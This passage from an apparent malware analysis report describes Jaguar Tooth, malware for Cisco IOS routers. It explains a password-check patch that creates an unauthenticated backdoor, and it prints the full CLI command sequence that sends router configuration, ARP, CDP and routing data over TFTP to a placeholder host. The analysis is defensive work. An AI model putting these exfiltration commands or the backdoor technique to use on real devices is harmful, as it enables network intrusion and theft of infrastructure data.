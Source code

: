**Functionality**

**Overview**

Jaguar Tooth is composed of a number of payloads and patches, the deployment of which is\
described in the ‘SNMP exploit’ section of this report.

It enables unauthenticated backdoor access by patching Cisco IOS authentication routines. This\
grants access to existing local accounts without checking the provided password, when connecting\
via Telnet or physical session. Further details are discussed in the ‘Functionality (Unauthenticated\
backdoor)’ section of this report.

The malware also creates a new process, called Service Policy Lock, that automatically collects\
information and exfiltrates it over TFTP. This includes device information such as the running\
configuration, firmware version, directory listing of flash memory, and network information including\
the Address Resolution Protocol (ARP) and routing tables, interfaces and other connected routers.\
Further details are discussed in the ‘Functionality (Device information exfiltration)’ section of this\
report.

**Unauthenticated backdoor**

Jaguar Tooth modifies the system’s authentication process, allowing unauthenticated access to any\
local account for any provided password via Telnet and physical sessions. This is achieved by\
patching askpassword and ask\_md5secret to always return true without checking the provided\
password.

**Device information exfiltration**

Jaguar Tooth collects and exfiltrates a variety of device information which is gathered using the\
following Cisco IOS Command Line Interface (CLI) commands:

* show running-config
* show version
* show ip interface brief
* show arp
* show cdp neighbors
* show start
* show ip route
* show flash

Specifically, Jaguar Tooth executes the following shortened Cisco IOS CLI and Tcl commands,\
exfiltrating the information over TFTP using the redirect, i.e. r, command:

* sleep 5000
* enable
* sh run | r tftp://\[IP ADDRESS]/\[URL PAGE]
* sleep 5000
* sh ver | r tftp://\[IP ADDRESS]/\[URL PAGE]
* sleep 5000
* sh ip int bri | r tftp://\[IP ADDRESS]/\[URL PAGE]
* sleep 5000
* sh arp | r tftp://\[IP ADDRESS]/\[URL PAGE]
* sleep 5000
* sh cdp neig | r tftp://\[IP ADDRESS]/\[URL PAGE]
* sleep 5000
* sh start | r tftp://\[IP ADDRESS]/\[URL PAGE]
* sleep 5000
* sh ip ro | r tftp://\[IP ADDRESS]/\[URL PAGE]
* sleep 5000
* sh fla | r tftp://\[IP ADDRESS]/\[URL PAGE]
* sleep 5000
* disable
* tclquit
